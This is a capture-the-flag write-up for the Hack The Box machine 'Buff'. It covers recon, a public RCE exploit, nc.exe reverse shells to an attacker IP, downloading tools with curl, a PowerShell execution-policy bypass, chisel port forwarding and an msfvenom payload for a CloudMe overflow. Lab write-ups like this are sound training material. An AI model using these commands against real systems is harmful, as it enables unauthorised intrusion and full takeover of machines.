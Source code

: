 # Box 



![buff](img/Screenshot_2020-12-24_17-26-56.png)

https://www.hackthebox.eu/home/machines/profile/263

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of Contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)



# Contents



## Reconnaissance



Let's start with nmap  : 

```bash
nmap -sV -Pn -sC -oN scan 10.10.10.198
```

![nmap](img/image-20201225184845422.png)

Now we use gobuster to do somes discoveries : 

```bash
gobuster -o dirb.txt  dir -u http://10.10.10.198:8080/ -w /usr/share/wordlists/dirb/common.txt
```

![gobuster](img/image-20201225185543475.png)

There was nothing relevant in this gobuster, but we see a license page.

```
mrb3n's Bro Hut
Made using Gym Management Software 1.0 
```

After looking for the webpage, we can find an exploit to do a RCE https://www.exploit-db.com/exploits/48506.

## Exploitation



After downloading it, we can use it :

```bash
python 48506.py http://10.10.10.198:8080
```



![RCE](img/image-20201225190510920.png)

## Post-Exploitation 

### User



We can know get the user.txt flag.

![user_flag](img/image-20201225190811901.png)



### Root 

We need to get a proper  shell we need to setup our python server `python -m SimpleHTTPServer 4444` and then : 

```bash
curl http://10.10.10.198:4444/nc.exe
```

 Then on the remote machine : 

```bash
nc.exe 10.10.14.28 1234 -e cmd.exe
```

![reverse_shell](img/image-20201225192251101.png)

 

I upload a file called jaws-enum.ps1  (https://github.com/411Hall/JAWS) to enumerate.

```bash
curl http://10.10.14.28:4444/jaws-enum.ps1 -o jaws-enum.ps1
```

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
```

During the enumeration we can see a service CloudMe running on port 8888 on localhost. We need to redirect the port to our local machine. 

I will use chisel (https://github.com/jpillora/chisel/releases) for this, you can also try plink.

First you need to upload chisel.exe on the remote machine using curl.
Now on your machine :

```bash
./chisel_1.7.2_linux_amd64 server --port 8000 --reverse
```

 on the remote machine :

```
chisel.exe client 10.10.14.28:8000 R:8888:127.0.0.1:8888
```

![image-20201225201843344](img/image-20201225201843344.png) 

We know have the traffic redirected to our machine.

After a bit of research we find this exploit that we download:  https://www.exploit-db.com/exploits/48389

We can now replace the payload : 

```bash
msfvenom  -p windows/exec CMD='c:\xampp\htdocs\gym\upload\nc.exe 10.10.14.28 3333 -e cmd.exe' -b '\x00\x0A\x0D\x20' -f python -v payload
```

![image-20201225202133473](img/image-20201225202133473.png)

Our exploit shoud look like this : 

![image-20201225202454133](img/image-20201225202454133.png)

Launch the script and we have rooted our box.

![image-20201225202302383](img/image-20201225202302383.png)


​			
